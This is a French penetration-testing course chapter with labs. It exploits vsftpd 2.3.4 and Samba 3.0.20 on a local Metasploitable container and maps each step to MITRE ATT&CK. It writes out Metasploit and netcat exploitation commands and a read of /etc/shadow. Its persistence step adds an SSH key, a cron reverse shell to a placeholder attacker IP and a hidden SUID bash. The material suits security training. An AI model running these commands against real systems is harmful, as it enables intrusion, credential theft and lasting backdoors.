



# Chapitre 02 : Tests de pénétration et exploitation

---

## Objectifs pédagogiques

- Construire une kill chain ATT&CK complète (reconnaissance → persistance)
- Mapper les méthodologies OWASP/PTES sur les tactiques ATT&CK
- Réaliser une reconnaissance réseau complète avec nmap (T1046)
- Exploiter vsftpd 2.3.4 et Samba 3.0.20 avec Metasploit
- Obtenir un shell root et mettre en place une persistance (TA0003)

---

## Introduction

Un pentest n'est pas du "cassage" hasardeux. C'est une démarche méthodique en 7 phases, exigée par la réglementation (RGS, NIS2) pour toute administration manipulant des données sensibles. Le rapport de pentest est un **livrable réglementaire** qui conditionne l'homologation de sécurité du système.

Dans ce chapitre, vous construirez votre première kill chain ATT&CK complète : chaque phase de la reconnaissance à la persistance sera taguée avec sa tactique et sa technique.

> **Sources :** [PTES Technical Guidelines](http://www.pentest-standard.org/). [RGS v2.0 — ANSSI](https://www.ssi.gouv.fr/rgs).

---

## 1. Méthodologies de pentest et ATT&CK



### Kill chain du jour



---

## 2. Reconnaissance — TA0007 Discovery

La reconnaissance est la phase la plus importante : 70% du temps d'un pentest. Elle détermine la surface d'attaque.

```bash
# Passive (sans toucher la cible)
whois <DOMAINE>
curl -s "https://crt.sh/?q=%25.<DOMAINE>&output=json" | jq '.[].name_value' | sort -u

# Active (scan direct)
nmap -sV -sC -p- <IP> -oA recon/full    # Complet
nmap --script vuln <IP> -oA recon/vuln   # Vulnérabilités
nmap --script ftp-* <IP>                 # Spécifique FTP
```

---

## Lab 2.1 — Reconnaissance du conteneur Metasploitable

### 📋 Fiche

| Durée | Conteneur | Dossier | Tactique ATT&CK |
|---|---|---|---|
| 45 min | vsftpd (Metasploitable 2) | `~/cours-hacking/jour-2/labs/` | TA0007 → T1046 |

### Contexte métier

Un pentest commence toujours par un scan exhaustif. Le client attend la liste complète des services exposés avec leurs versions. C'est la base du rapport.

### Étape 1 — Scan complet

```bash
mkdir -p ~/cours-hacking/jour-2/labs/recon && cd ~/cours-hacking/jour-2/labs
nmap -sV -sC -p- localhost -oA recon/full_scan 2>&1 | tee recon/scan.txt
```

Résultat attendu :

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1
80/tcp   open  http        Apache httpd 2.2.8
445/tcp  open  netbios-ssn Samba smbd 3.0.20
3306/tcp open  mysql       MySQL 5.0.51a
5432/tcp open  postgresql  PostgreSQL DB 8.3.0
```

**Checkpoint A :** 6+ ports ouverts identifiés avec leurs versions.

### Étape 2 — Scan de vulnérabilités ciblé

```bash
nmap --script ftp-vsftpd-backdoor -p 21 localhost | tee recon/vsftpd.txt
nmap --script smb-vuln* -p 445 localhost | tee recon/smb.txt
```

### Étape 3 — Script de reconnaissance automatisé

```bash
cd ~/cours-hacking/jour-2/labs
cat > recon.sh << 'SCRIPT_EOF'
#!/bin/bash
OUTDIR="recon/$(date +%H%M)"
mkdir -p "$OUTDIR"
nmap -sV -sC -p 21,22,80,445,3306,5432 localhost -oA "$OUTDIR/ports"
nmap --script ftp-vsftpd-backdoor -p 21 localhost -oA "$OUTDIR/vsftpd"
nmap --script smb-vuln* -p 445 localhost -oA "$OUTDIR/smb"
echo "[+] Résultats dans $OUTDIR/" && ls -la "$OUTDIR/"
SCRIPT_EOF
chmod +x recon.sh && ./recon.sh
```

---

## Lab 2.2 — Exploitation vsftpd 2.3.4 (Backdoor)

### 📋 Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 40 min | vsftpd (port 21 → backdoor port 6200) | T1190 Exploit Public-Facing App |

### Contexte technique

En 2011, le code source de vsftpd 2.3.4 a été compromis : un nom d'utilisateur contenant `:)` ouvre silencieusement un shell root sur le port 6200. Ce type de backdoor (supply chain attack) est toujours d'actualité — l'attaque SolarWinds (2020) suivait exactement le même principe.



### Étape 1 — Exploitation Metasploit

Dans un terminal Kali :

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS localhost; set RPORT 21; run"
```

Sortie attendue :

```
[*] Banner: 220 (vsFTPd 2.3.4)
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened
```

**Checkpoint :** `uid=0(root)` — shell root direct, pas d'escalade nécessaire.

### Étape 2 — Exploitation manuelle

```bash
echo -e "user :)\npass x" | nc localhost 21 > /dev/null 2>&1 &
sleep 2
nc localhost 6200
# Une fois connecté sur le port 6200, tapez dans la session nc :
# whoami
# → root
```

### Étape 3 — Post-exploitation

**Ces commandes s'exécutent DANS le shell root obtenu à l'étape précédente** (session Metasploit ou connexion manuelle), PAS dans votre terminal Kali.

```bash
whoami                         # root
hostname                       # ID conteneur
uname -a                       # Kernel version
cat /etc/shadow | head -5      # Hashs utilisateurs
ss -tulpn                      # Services internes
```

---

## Lab 2.3 — Exploitation Samba + Kill Chain complète

### 📋 Fiche

| Durée | Conteneur | Techniques |
|---|---|---|
| 50 min | vsftpd (port 445) | T1210 + T1059.004 + T1098.004 |

### Contexte technique

Samba 3.0.20 (CVE-2007-2447) a un `usermap` script vulnérable : les métacaractères shell dans le nom d'utilisateur sont exécutés. C'est une **command injection** dans un service réseau — même principe que le lab DVWA du J1, mais sur un service SMB.

### Étape 1 — Exploitation Samba

Dans un terminal Kali :

```bash
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS localhost; set RPORT 445; run"
# [*] Command shell session 2 opened
# Dans le shell Metasploit, tapez :
# whoami
# → root
```

### Étape 2 — Comparaison des deux exploits

| | vsftpd 2.3.4 | Samba 3.0.20 |
|---|---|---|
| Service | FTP (21) | SMB (445) |
| ATT&CK | T1190 | T1210 |
| Tactique | Initial Access | Lateral Movement |
| Mécanisme | Backdoor binaire | Command injection |
| Impact | root direct | root direct |

### Étape 3 — Persistance (TA0003)

**Dans le shell root obtenu via l'exploit Samba (Étape 1 ci-dessus)**, exécutez :

```bash
# SSH key permanente
mkdir -p /root/.ssh
echo "YOUR_PUBLIC_KEY" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Cron reverse shell
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1'" >> /etc/crontab

# SUID bash caché
cp /bin/bash /tmp/.bash_hidden && chmod 4755 /tmp/.bash_hidden
```

### Étape 4 — Kill chain documentée

| Phase | Tactic | Technique | Outil |
|---|---|---|---|
| 1 | TA0007 Discovery | T1046 | nmap -sV |
| 2 | TA0001 Initial Access | T1190 | Metasploit vsftpd |
| 3 | TA0002 Execution | T1059.004 | Shell root |
| 4 | TA0003 Persistence | T1098.004 | SSH key |

### Checkpoints finaux

- [ ] nmap : 6+ ports identifiés
- [ ] vsftpd exploité → shell root
- [ ] Samba exploité → shell root
- [ ] Persistance mise en place
- [ ] Kill chain documentée

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator J2

**Énoncé :** Créez une couche avec T1046, T1190, T1210, T1059.004, T1098.004. Exportez en JSON.

<details><summary><strong>Solution</strong></summary>
ATT&CK Navigator → New Layer → ajouter les 5 techniques → Download JSON
</details>

### Exercice 2 : Mapping EternalBlue

**Énoncé :** WannaCry (2017) : quelles techniques ATT&CK ?

<details><summary><strong>Solution</strong></summary>
- EternalBlue → T1210 (TA0008), DoublePulsar → T1543.003 (TA0003), Chiffrement → T1486 (TA0014)
</details>

---

## Points clés à retenir

- Kill chain ATT&CK : TA0007 → TA0001 → TA0002 → TA0003
- vsftpd 2.3.4 → T1190 (backdoor), Samba 3.0.20 → T1210 (command injection)
- La persistance (TA0003) distingue une intrusion d'une compromission durable
- **Rapport de pentest = livrable réglementaire** (homologation RGS, conformité NIS2)

## Pour aller plus loin

- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [GTFOBins](https://gtfobins.github.io/)

---

*Chapitre précédent : [Jour 1](./JOUR-01.md)*
*Chapitre suivant : [Jour 3](./JOUR-03.md)*
